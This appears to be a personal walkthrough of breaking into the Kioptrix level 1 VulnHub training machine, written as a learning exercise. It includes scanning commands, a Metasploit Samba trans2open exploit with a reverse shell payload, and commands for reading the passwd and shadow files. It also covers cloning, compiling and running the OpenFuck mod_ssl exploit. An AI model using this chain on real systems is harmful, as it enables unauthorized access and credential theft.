 # Kioptrix-level 1
(Screenshots are going to be seperate)\
Hey so I'm going to be be going over the process of pwning kioptrix level 1 vulnhub machine. So I started off by using Arpscan to scan for available devices so:\
```arp-scan -l```\
Then I was going to identify it using the MAC address, so in my case I was looking on all possible vendors and eliminating what's not useful. So in my case the MAC address was ```1a:c0:1e:91:41:b9``` you can usually also lookup MAC addresses online because first 3 octets identify the vendor so whatever comes from a specific vendor has the sama first 3 octets (OUI or Organizational Unique Identifier) and the last 3 (NIC or Network Interface Controller) are special for each device. So in my case it was unknown for the vendor possibly because it was hosted on a vm. So in the Arp scan along with the MAC address you get an IP address in my case it was ```192.168.1.44```. Then my next step was to scan that IP address using NMAP to see possible open ports and other information so I used ```nmap -T4 -A -p- 192.168.1.44``` or for realistic taste you can try ```nmap -T4 -sS -A -p- 192.168.1.44``` and the latter I added the "-sS" for stealth scan. So in my results I had 6 open tcp ports (22, 80, 111, 139, 443, 32768). So I ran nikto then went to watch the http and https: ```nikto -h http://192.168.1.44``` as I went to the website it was a default apache page so if that was a real pentest that would give us an idea about the hygiene of the client (awful). In most cases that http with poor hygiene is a finding but after I ran dirbuster it turned it that it didn't have anything important. So we also have the smb port open very important we can run metasploit to scan the version so:\
```msfconsole```\
```use auxiliary/scanner/smb/smb_version```\
```options```\
```set RHOSTS 192.168.1.44```\
```run```\
So the results we got that it's running "Unix (Samba 2.2.1a)"\
we can google "Unix (Samba 2.2.1a) exploits" or we can try to login with smbclient to the address (but it failed).\
So it's possibly vulnerable to "Samba trans2open Overflow (Linux x86)" by rapid 7 (metasploit) so let's see:\
```msfconsole```\
```use exploit/linux/samba/trans2open```\
```option```\
```set LHOST```\
```set RHOSTS```\
```run``` or ```exploit```\
Most likely it's not going to work so a soultion that has worked to me was to change the current payload "linux/x86/shell_reverse_tcp" so :\
```set payload linux/x86/shell_reverse_tcp```\
```run``` or ```exploit```\
Then Most likely you will have a shell. From here you can ```cd``` until you get to home then ```cd etc``` then ```cat passwd``` and ```cat shadow```\
So that's the metasploit route, now let's try to use a manual exploit. So in the scanning I found "mode SSL" on https (Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b). So I looked on google for compatible exploits and found "OpenLuck" on github by heltonWernik. So follow the direction ->\
```git clone https://github.com/heltonWernik/OpenFuck.git```\
```apt-get install libssl-dev```\
```gcc -o OpenFuck OpenFuck.c -lcrypto```\
```./OpenFuck```\
Now we are going to start using the exploit\
```./OpenFuck 0x6b 192.168.1.44 -c 40```\
You should get a shell\
then try things like:\
```whoami```\
```hostname```\
So that was it for this machine, I hope y'all learned something or more and hopefully there will be more content.
